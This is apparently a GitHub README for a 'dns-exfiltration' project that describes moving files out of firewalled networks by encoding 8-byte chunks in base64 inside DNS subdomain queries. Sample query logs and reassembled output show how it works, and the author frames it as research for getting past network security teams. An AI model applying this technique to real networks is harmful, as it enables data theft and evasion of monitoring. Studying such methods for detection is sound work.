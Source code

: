 dns-exfiltration
================

Exfiltrate files via DNS. Based on [research by 16 Systems](http://16s.us/dns/).

### What the DNS Queries Look Like in Your Server's DNS Query Log

```
# The base64 encoded data is the payload
# Each query contains 8 bytes from the file

26-Aug-13 18:12:39 queries: info: client 8.x.x.x#18743:
  query: AAAAAAAAAAAxMjM0NTY3OA==.file1.16s.us IN A -ED (2.x.x.x)
26-Aug-13 18:12:49 queries: info: client 8.x.x.x#59519:
  query: AQAAAAAAAAA5MAoAAAAAAA==.file1.16s.us IN A -ED (2.x.x.x)
```

### What the Raw Reassembled File Looks Like

```
# First element is the sequence number. Second is bytes from file.
# You need the sequence number to reassemble the file in the right order.

(0, '12345678')
(1, '90\n\x00\x00\x00\x00\x00')
```

### That's It

This can be automated and made to be very efficient, but I won't get into that. It also works on very large files (2^32 * 8) and with any type of file (text, binary, etc). So, now you know how to exfiltrate files from a firewalled network using simple DNS queries. When/if the network security team figures this out and blocks it, I'll demonstrate a few other ways in which data can be exfiltrated.

Again, this information is meant for research/educational purposes only.

### Related Work

- [iodine](http://code.kryo.se/iodine/)
- [OzymanDNS](http://en.cship.org/wiki/OzymanDNS)
- [DNStunnel.de](http://dnstunnel.de/)
- http://tools.ietf.org/html/draft-vixie-dnsext-dns0x20-00
